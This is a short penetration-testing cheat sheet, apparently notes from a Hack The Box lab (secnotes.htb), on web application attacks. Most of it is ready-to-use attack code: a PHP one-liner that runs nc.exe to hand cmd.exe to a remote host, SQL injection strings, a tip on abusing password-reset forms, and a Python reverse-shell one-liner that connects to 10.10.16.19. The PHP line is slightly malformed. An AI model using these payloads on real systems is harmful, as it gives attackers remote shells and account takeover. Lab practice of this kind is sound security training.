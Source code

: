# Web Application Enumeration and Attacks

| Check | Description |
| ---------------------------- | ---------------------------- |
| Curl vs Refreshing the page | Curl the page, you may see different users invoking the service (secnotes.htb) |
| Simple PHP to run nc.exe | ```<?php system('nc.exe -e cmd.exe 10.10.16.19 12345' ?> >> nc.php``` |
| Check for XSRF in password reset functions | If the application allows a password reset without validating the user, you maybe able to trick the user into resetting their password |

## 2nd Order SQLi
```
' OR 1 OR '
' OR 1='1
```

## Python Reverse Shell
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```